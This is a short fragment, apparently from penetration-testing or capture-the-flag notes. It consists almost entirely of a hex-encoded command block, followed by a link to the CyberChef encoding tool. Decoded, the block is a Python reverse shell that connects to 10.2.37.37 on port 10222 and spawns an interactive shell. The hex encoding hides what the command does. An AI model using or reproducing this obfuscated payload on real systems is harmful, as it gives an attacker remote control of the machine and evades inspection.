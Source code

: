 ![image.png](image%2016.png)

**OUTPUT:**

```powershell
\x70\x79\x74\x68\x6f\x6e\x33\x20\x2d\x63\x20\x27\x69\x6d\x70\x6f\x72\x74\x20\x73\x6f\x63\x6b\x65\x74\x2c\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2c\x6f\x73\x3b\x73\x3d\x73\x6f\x63\x6b\x65\x74\x2e\x73\x6f\x63\x6b\x65\x74\x28\x73\x6f\x63\x6b\x65\x74\x2e\x41\x46\x5f\x49\x4e\x45\x54\x2c\x73\x6f\x63\x6b\x65\x74\x2e\x53\x4f\x43\x4b\x5f\x53\x54\x52\x45\x41\x4d\x29\x3b\x73\x2e\x63\x6f\x6e\x6e\x65\x63\x74\x28\x28\x22\x31\x30\x2e\x32\x2e\x33\x37\x2e\x33\x37\x22\x2c\x31\x30\x32\x32\x32\x29\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x30\x29\x3b\x20\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x31\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x32\x29\x3b\x69\x6d\x70\x6f\x72\x74\x20\x70\x74\x79\x3b\x20\x70\x74\x79\x2e\x73\x70\x61\x77\x6e\x28\x22\x73\x68\x22\x29\x27
```

**For online tool:**

[CyberChef](https://gchq.github.io/CyberChef/)
